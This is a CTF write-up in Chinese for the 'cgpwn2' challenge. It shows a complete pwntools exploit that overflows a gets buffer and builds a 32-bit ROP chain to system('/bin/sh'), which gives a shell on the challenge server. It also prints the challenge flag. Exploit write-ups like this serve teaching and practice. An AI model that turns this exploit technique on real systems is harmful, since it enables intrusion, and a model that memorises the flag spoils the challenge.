

# cgpwn2

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=bc7fa74a-09f7-4a5d-b243-f833888a5cef_2&task_category_id=2)

几周没做pwn就连32位rop链都忘了ಠ_ಠ。来复习一下。



-   Arch:     i386-32-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    No canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x8048000)

还是普通的栈溢出，但有了一点小小的变化（其实是更简单了）。就开了个NX，上rop。第33行有个gets，将我们输入的内容存入local_2a,除了栈溢出还能有啥？但这道题的31行与其他的不同，将我们输入的name放到了bss段。正经人谁把name放bss段啊，这不是明摆着给我们利用吗？

我本来想ret2libc，还费尽心思打印了puts的地址，但发现打印结果不对劲。想在ghidra看看怎么回事，结果发现已经有现成的system了（所以说pwn前要仔细看啊）。行吧，给了system哪有不用的道理。/bin/sh可以直接从刚刚输入的bss段拿。

```python
from pwn import *
p=remote("61.147.171.105",60164)
system_plt=134513696
sh_addr=0x0804a080
payload=b'a'*0x2a + p32(system_plt)+b'a'*4+p32(sh_addr)
p.sendlineafter("please tell me your name",'/bin/sh')
p.sendlineafter("hello,you can leave some message here:",payload)
p.interactive()
```

复习一遍这个rop链。b'a'\*0x2a + p32(system_plt)+b'a'\*4+p32(sh_addr)等于0x2a个垃圾数据（跟要溢出变量距离ebp的长度有关）+要跳转的地址+跳转后的返回地址（此处system直接拿到shell了所以返回去哪不重要，乱填也没事，后面崩了管我们啥事）+调用函数的参数。

- ### Flag
  > cyberpeace{931db72919c14c2194e62d458d35ea9c}